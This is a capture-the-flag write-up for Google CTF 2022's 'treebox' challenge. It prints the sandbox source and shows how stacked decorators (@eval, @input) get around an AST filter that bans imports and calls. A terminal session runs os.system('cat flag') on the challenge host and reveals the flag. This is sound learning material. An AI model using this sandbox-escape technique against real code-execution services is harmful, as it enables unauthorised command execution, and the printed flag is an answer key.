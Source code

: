# Google CTF - TREEBOX (50 pts)
##### by [IsaacMak](https://github.com/IsaacMak2009)  
##
first for all, let look at the `treebox.py`:
```py
#!/usr/bin/python3 -u
#
# Flag is in a file called "flag" in cwd.
#
# Quote from Dockerfile:
#   FROM ubuntu:22.04
#   RUN apt-get update && apt-get install -y python3
#
import ast
import sys
import os

def verify_secure(m):
  for x in ast.walk(m):
    match type(x):
      case (ast.Import|ast.ImportFrom|ast.Call):
        print(f"ERROR: Banned statement {x}")
        return False
  return True

abspath = os.path.abspath(__file__)
dname = os.path.dirname(abspath)
os.chdir(dname)

print("-- Please enter code (last line must contain only --END)")
source_code = ""
while True:
  line = sys.stdin.readline()
  if line.startswith("--END"):
    break
  source_code += line

tree = compile(source_code, "input.py", 'exec', flags=ast.PyCF_ONLY_AST)
if verify_secure(tree):  # Safe to execute!
  print("-- Executing safe code:")
  compiled = compile(source_code, "input.py", 'exec')
  exec(compiled)
```
what this file actually do is just compile a python code and check if it have import statement or call statement.
after some testing, i found that i can use [decorators](https://www.geeksforgeeks.org/decorators-in-python/) to call a function
## Show time!
```bash
root@IsaacMak:~/CTF-writeup/google_ctf/treebox# nc treebox.2022.ctfcompetition.com 1337
== proof-of-work: disabled ==
-- Please enter code (last line must contain only --END)
@eval
@input
class A: pass
--END
-- Executing safe code:
<class '__main__.A'>os.system("cat flag")
CTF{CzeresniaTopolaForsycja}
root@IsaacMak:~/CTF-writeup/google_ctf/treebox#
```
flag: `CTF{CzeresniaTopolaForsycja}`
